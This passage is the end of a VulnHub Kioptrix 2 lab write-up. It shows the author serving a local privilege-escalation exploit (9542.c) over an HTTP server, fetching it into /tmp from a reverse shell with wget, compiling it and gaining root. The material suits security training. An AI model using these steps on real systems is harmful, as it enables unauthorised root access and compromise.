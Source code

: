 ```
** sh-3.1#
** --
** exploit by <p0c73n1(at)gmail(dot)com>.
**
*/
:
```
*	* The runtime instructions looks to be a privesc
	* Make a copy into your directory
```searchsploit -m 9542.c```
	* Run a http server to deliver the exploit:
```
root@kali:~/Desktop/VulnHub/Kioptrix2# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
*	* Navigate to the reverse shell and navigate to /tmp/ where you will most likely have permissions to write files:
```
bash-3.00$ wget 192.168.50.9:8000/9542.c
--21:18:23--  http://192.168.50.9:8000/9542.c
           => `9542.c'
Connecting to 192.168.50.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%  504.11 MB/s

21:18:23 (504.11 MB/s) - `9542.c' saved [2643/2643]
```
*	* Time to run the exploit:
```
bash-3.00$ gcc -o exploit 9542.c
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
9542.c
exploit
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 
```
ROOTED

[k2homepage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2homepage.png
[k2pingpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage.png
[k2errorpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/k2errorpage.png
[k2pingpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage.png
[k2pingpage2]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage2.png
[k2pingpage3]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K2pingpage3.png


